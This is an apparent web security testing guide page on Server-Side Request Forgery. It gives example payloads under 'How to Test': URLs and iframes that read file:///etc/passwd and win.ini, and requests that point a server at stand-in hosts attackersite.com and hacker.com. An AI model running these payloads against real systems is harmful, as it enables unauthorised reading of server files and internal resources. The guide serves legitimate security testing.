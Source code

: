 # Testing for Server-Side Request Forgery

## Summary

In a Server-Side Request Forgery (SSRF) attack, the attacker can abuse functionality on the server to read or update internal resources. The attacker can supply or a modify a request which the code running on the server will process. By carefully selecting the details, the attacker may be able to read server configuration such as AWS metadata, connect to internal services like HTTP enabled databases, or perform POST requests towards internal services which are not intended to be exposed.

### Description

The target application may have functionality for importing data from a URL, publishing data to a URL, or otherwise reading data from a request that can be tampered with. The attacker modifies the calls to this functionality by supplying a completely different request or by manipulating how requests are built (path traversal, etc.).

Some common vulnerabilities related to server-side request forgery:

- URL redirection
- Remote file inclusion
- SQL injection
- Link Injection

### How to Test

#### Case I: Endpoints Which Fetch External/Internal Resources

With GET request:

- `http://example.com/index.php?page=about.php`
- `http://example.com/index.php?page=https://attackersite.com`
- `http://example.com/index.php?page=file:///etc/passwd`

With POST request:

```html
POST /test/ssrf_form.php HTTP/1.1
Host: example.com

url=https://hacker.com/as&name2=value2
```

#### Case II: PDF Generators

There are some cases where server converts uploaded file to a pdf.Try injecting `<iframe>`, `<img>`, `<base>` or `<script>` elements or CSS url() functions pointing to internal services.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height=”400">
```

## Tools

- Burpsuite
- ZAP

## References

- [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
